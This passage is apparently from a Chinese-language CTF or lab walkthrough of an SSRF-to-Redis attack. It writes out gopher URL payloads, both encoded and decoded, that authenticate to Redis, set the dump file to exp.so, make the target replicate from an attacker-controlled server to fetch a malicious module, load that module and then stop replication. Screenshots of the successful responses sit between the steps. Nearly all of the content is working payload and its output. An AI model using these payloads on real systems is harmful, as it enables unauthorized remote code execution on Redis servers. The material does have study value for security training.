 成功

![image-20241028202148107](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410282021145.png)

**然后生成一个exp.so文件，再设置主从关系（ip改为自己的服务器）**

```
gopher://0.0.0.0:6379/_auth%2520root%250d%250aconfig%2520set%2520dbfilename%2520exp.so%250d%250aslaveof%2520ip%25201028%250d%250aquit


#上述payload的解码结果
gopher://0.0.0.0:6379/_auth root
config set dbfilename exp.so
slaveof ip 1028  
quit

```

返回四个ok

![image-20241028202606980](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410282026006.png)



linux服务器也一直在回显![image-20241028202624502](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410282026557.png)

**然后继续加载模块**

```
gopher://0.0.0.0:6379/_auth%2520root%250d%250amodule%2520load%2520./exp.so%250d%250aquit

#上述payload的解码结果
gopher://0.0.0.0:6379/_auth root
module load ./exp.so
quit

```

得到三个ok

![image-20241028202714815](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410282027838.png)

最后关闭主从同步

```
gopher://0.0.0.0:6379/_auth%2520root%250d%250aslaveof%2520NO%2520ONE%250d%250aquit

#上述payload的解码结果
gopher://0.0.0.0:6379/_auth root
slaveof NO ONE
quit

```

![image-20241028202751670](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410282027691.png)

